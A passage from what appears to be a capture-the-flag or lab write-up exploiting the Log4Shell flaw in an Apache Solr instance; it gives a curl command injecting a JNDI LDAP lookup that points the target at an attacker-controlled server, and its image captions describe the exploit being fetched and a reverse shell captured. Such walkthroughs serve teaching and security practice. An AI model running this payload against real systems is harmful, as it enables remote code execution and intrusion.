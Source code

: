 Finally, all that is left to do is trigger the exploit and fire off our JNDI syntax! Note the changes in port number (now referring to our LDAP server) and the resource we retrieve, specifying our exploit:

```bash
curl 'http://10.10.158.27:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.20.17:1389/Exploit\}'
```

![Sent Curl Request](<../../../.gitbook/assets/image (22) (1) (1).png>)

![LDAP Referral Server redirecting to the exploit](<../../../.gitbook/assets/image (13) (1) (1).png>)

![Exploit getting retrieved from my simple http server](<../../../.gitbook/assets/image (26) (1) (1).png>)

![Reverse Shell Captured!](<../../../.gitbook/assets/image (23) (1) (1).png>)
